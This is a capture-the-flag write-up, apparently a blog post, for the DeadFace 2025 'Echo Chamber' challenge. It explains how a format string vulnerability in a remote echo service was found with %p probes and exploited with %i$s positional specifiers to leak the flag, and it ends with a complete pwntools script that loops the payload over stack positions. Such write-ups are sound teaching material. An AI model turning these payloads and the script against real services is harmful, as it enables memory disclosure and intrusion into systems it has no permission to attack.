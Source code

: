 ```yaml
---
title : Echo Chamber Write Up [DeadFace 2025]
date : 2025-10-27 16:00:00 -0500
categories : [WriteUps]
tags : [DeadFace 2025, pwn]
---
```



---

## Echo Chamber

<p style="text-align: left;">
  <img src="{{ '/assets/img/echo_chamber.png' | relative_url }}">
</p>

This challenge involved a pwn task on a remote service. The description "echoes messages without sanitizing input" strongly suggested a format string vulnerability.

### Initial Reconnaissance

First, I connected to the service using netcat to understand its behavior.

nc echochamber.deadface.io 13337


The service presented a simple prompt:
DEADFACE Echo Chamber
Enter your message: 

Sending a normal string like hello simply echoed it back:
Echo: hello

This confirmed the "echo" behavior. The next logical step was to test for a format string vulnerability by sending a format specifier.

Enter your message: %p
Echo: 0x402000

The service did not echo %p. Instead, it echoed a hexadecimal value, which is a classic sign of a printf-like function processing the user's input directly as its format string argument. This confirmed the vulnerability.

### Vulnerability Analysis

To see what was on the stack, I sent a chain of %p specifiers.

Enter your message: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p
Echo: 0x402000.0x402000.0.0x7fffffff.0.0x70252e70252e7025.0x252e70252e70252e. ...

The response was very revealing. The 6th value, 0x70252e70252e7025, is the ASCII representation of p%.p%. in little-endian. This meant that starting from the 6th argument, printf was reading our own input string from the stack.

This deduction was key:

Arguments 1-5 were existing data on the stack.

Arguments 6 onwards were our own input buffer.

The flag (or a pointer to it) was likely either in positions 1-5 or at a later position, after our input string.

### Exploitation

Since the flag is likely a string, it's more efficient to look for a pointer to it rather than leaking the raw stack values. The %s specifier tells printf to take an address from the stack and print the null-terminated string at that location.

By using positional arguments like %i$s (where i is the stack position), we can systematically test each position to see if it holds a pointer to the flag.

The strategy is to loop from i=1 upwards:

Connect to the service.

Send the payload %i$s.

Read the response.

If the response contains deadface, we found the flag.

If not (or if the service crashes, which it will on an invalid pointer), disconnect and try i+1.

### Finding the Flag

I automated this process with a simple Python script using pwntools. The script loops through stack positions, sends the payload, and checks the response.

The script quickly found the flag:

## Flag

<p style="text-align: left;">
  <img src="{{ '/assets/img/flag_echo_chamber.png' | relative_url }}" alt="Picture of the flag returned by our Python script">
</p>

deadface{r3tr0_f0rm4t_L34k_3xp0s3d}


## Full code for the Python Script with pwntools

```python 

 #!/usr/bin/env python3
from pwn import *

HOST = "echochamber.deadface.io"
PORT = 13337

#  teste les 100 premiers arguments de la pile.
for i in range(1, 100):
    try:
        # Affiche quelle position on teste
        log.info(f"[*] Test de la position : {i}")

        # Connexion au service distant
        r = remote(HOST, PORT)

        r.recvuntil(b"Enter your message: ")
        
        # Formatage du payload,
        # .encode() le convertit en bytes pour l'envoi
        payload = f"%{i}$s".encode()

        # Envoi du payload
        r.sendline(payload)
        
        # On lit la réponse. On met un timeout dans le cas ou réponse invalide
        response = r.recvall(timeout=0.5)

        # Vérification !
        if b"deadface{" in response:
            log.success("[***] FLAG TROUVÉ ! [***]")
            
            # On décode la réponse pour l'afficher proprement
            print(response.decode(errors='ignore'))
            break
        r.close()

    except EOFError:
        log.warning(f"Position {i} a causé un crash (EOFError).")
        r.close()
    except Exception as e:
        log.error(f"Erreur à la position {i}: {e}")
        r.close()

log.info("Script terminé.") 

```